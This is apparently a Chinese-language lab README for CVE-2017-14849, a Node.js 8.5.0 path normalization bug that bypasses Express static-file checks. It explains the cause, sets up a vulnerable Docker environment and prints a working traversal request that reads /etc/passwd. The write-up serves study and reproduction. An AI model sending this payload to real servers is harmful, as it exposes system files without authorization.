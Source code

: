 # Node.js 目录穿越漏洞（CVE-2017-14849）

Node.js 是一个跨平台的开源 JavaScript 运行环境。Node.js 8.5.0 ~ 8.6.0 版本中，由于对“..”处理方式的更改与社区模块使用的路径名验证不兼容，远程攻击者可以访问到非预期以外的文件。

这个漏洞的原因是 Node.js 8.5.0 对目录进行`normalize`操作时出现了逻辑错误，导致向上层跳跃的时候（如`../../../../../../etc/passwd`），在中间位置增加`foo/../`（如`../../../foo/../../../../etc/passwd`），即可使`normalize`返回`/etc/passwd`，但实际上正确结果应该是`../../../../../../etc/passwd`。

Express这类web框架，通常会提供了静态文件服务器的功能，这些功能依赖于`normalize`函数。比如，Express在判断path是否超出静态目录范围时，就用到了`normalize`函数，上述BUG导致`normalize`函数返回错误结果导致绕过了检查，造成任意文件读取漏洞。

当然，`normalize`的BUG可以影响的绝非仅有Express，更有待深入挖掘。不过因为这个BUG是node 8.5.0 中引入的，在 8.6 中就进行了修复，所以影响范围有限。

参考文档：

 - https://nodejs.org/en/blog/vulnerability/september-2017-path-validation/
 - https://security.tencent.com/index.php/blog/msg/121

## 漏洞环境

执行如下命令编译及运行一个基于Node.js 8.5.0和Express 4.15.5的漏洞环境：

```
docker compose build
docker compose up -d
```

访问`http://your-ip:3000/`即可查看到一个web页面，其中引用到了文件`/static/main.js`，说明其存在静态文件服务器。

## 漏洞复现

发送如下数据包，即可读取passwd文件：

```
GET /static/../../../a/../../../../etc/passwd HTTP/1.1
Host: your-ip:3000
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

![](1.png)
